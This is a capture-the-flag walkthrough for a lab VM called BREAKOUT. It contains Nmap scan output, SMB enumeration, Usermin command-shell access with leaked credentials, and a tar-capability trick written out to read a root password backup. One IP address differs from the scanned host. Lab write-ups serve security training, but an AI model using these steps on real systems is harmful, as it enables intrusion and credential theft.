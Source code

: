 # Nmap

```bash
# Nmap 7.94SVN scan initiated Sun Nov 24 11:28:15 2024 as: /usr/lib/nmap/nmap --privileged -p 80,139,445,10000,20000 -sCV -A -T4 -O -oN scans/service-scan 192.168.1.100
Nmap scan report for 192.168.1.100
Host is up (0.0012s latency).

PORT      STATE SERVICE     VERSION
80/tcp    open  http        Apache httpd 2.4.51 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.51 (Debian)
139/tcp   open  netbios-ssn Samba smbd 4.6.2
445/tcp   open  netbios-ssn Samba smbd 4.6.2
10000/tcp open  http        MiniServ 1.981 (Webmin httpd)
|_http-server-header: MiniServ/1.981
|_http-title: 200 &mdash; Document follows
20000/tcp open  http        MiniServ 1.830 (Webmin httpd)
|_http-server-header: MiniServ/1.830
|_http-title: 200 &mdash; Document follows
MAC Address: 08:00:27:29:55:DB (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
|_nbstat: NetBIOS name: BREAKOUT, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb2-time: 
|   date: 2024-11-24T10:28:29
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   1.15 ms 192.168.1.100

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 24 11:28:59 2024 -- 1 IP address (1 host up) scanned in 43.67 seconds
```

### Services

- **SMB:** Enumerate through enum4linux to get user **cyber** (`enum4linux 192.168.56.101 -a`)
- **Apache Server (80):** Here we find the cyber password encrypted in BrainFuck! language, it is hidden in the landing page source code
- **Usermin (20000):** With cyber credentials we can access and we can get RCE in **Usermin/Login/Command Shell**
- **Webmin (10000):** Not useful

### Privilege escalation

In cyber home folder we find **tar** binary, if we inspect the binary we see that it has read capabilities (**cap_dac_read_search=ep**) so we can read any file in the system by compressing it with tar and decompressing it. We found in **/var/backups** a backup for root password:

	/home/cyber/tar -cf - /var/backups/.old_pass.bak > old_pass.tar
	/home/cyber/tar -xf old_pass.tar
	
And we can read root pasword and change user with `su root`